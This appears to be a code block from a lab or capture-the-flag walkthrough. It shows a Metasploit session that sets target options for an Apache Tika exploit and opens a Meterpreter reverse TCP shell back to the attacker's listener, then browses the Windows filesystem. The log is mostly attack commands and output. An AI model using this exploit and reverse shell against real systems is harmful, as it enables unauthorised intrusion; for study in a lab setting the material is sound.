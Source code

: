 ```


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thr
                                        ead, process, none)
   LHOST     10.10.3.54       yes       The listen address (an interface may b
                                        e specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows

msf6 exploit(windows/http/apache_tika_jp2_jscript) > set RHOSTS 10.10.182.102
RHOSTS => 10.10.182.102
msf6 exploit(windows/http/apache_tika_jp2_jscript) > set RPORT 61777
RPORT => 61777
msf6 exploit(windows/http/apache_tika_jp2_jscript) > exploit

[*] Started reverse TCP handler on 10.10.3.54:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Sending PUT request to 10.10.182.102:61777/meta
[*] Command Stager progress -   8.10% done (7999/98798 bytes)
[*] Sending PUT request to 10.10.182.102:61777/meta
[*] Command Stager progress -  16.19% done (15998/98798 bytes)
[*] Sending PUT request to 10.10.182.102:61777/meta
[*] Command Stager progress -  24.29% done (23997/98798 bytes)
[*] Sending PUT request to 10.10.182.102:61777/meta
[*] Command Stager progress -  32.39% done (31996/98798 bytes)
[*] Sending PUT request to 10.10.182.102:61777/meta
[*] Command Stager progress -  40.48% done (39995/98798 bytes)
[*] Sending PUT request to 10.10.182.102:61777/meta
[*] Command Stager progress -  48.58% done (47994/98798 bytes)
[*] Sending PUT request to 10.10.182.102:61777/meta
[*] Command Stager progress -  56.67% done (55993/98798 bytes)
[*] Sending PUT request to 10.10.182.102:61777/meta
[*] Command Stager progress -  64.77% done (63992/98798 bytes)
[*] Sending PUT request to 10.10.182.102:61777/meta
[*] Command Stager progress -  72.87% done (71991/98798 bytes)
[*] Sending PUT request to 10.10.182.102:61777/meta
[*] Command Stager progress -  80.96% done (79990/98798 bytes)
[*] Sending PUT request to 10.10.182.102:61777/meta
[*] Command Stager progress -  89.06% done (87989/98798 bytes)
[*] Sending PUT request to 10.10.182.102:61777/meta
[*] Command Stager progress -  97.16% done (95988/98798 bytes)
[*] Sending PUT request to 10.10.182.102:61777/meta
[*] Sending stage (175686 bytes) to 10.10.182.102
[*] Command Stager progress - 100.00% done (98798/98798 bytes)
[*] Meterpreter session 1 opened (10.10.3.54:4444 -> 10.10.182.102:49853) at 2024-05-29 06:05:17 +0100

meterpreter > pwd
C:\Windows\system32
meterpreter > cd ../../Users
meterpreter > ls
Listing: C:\Users
```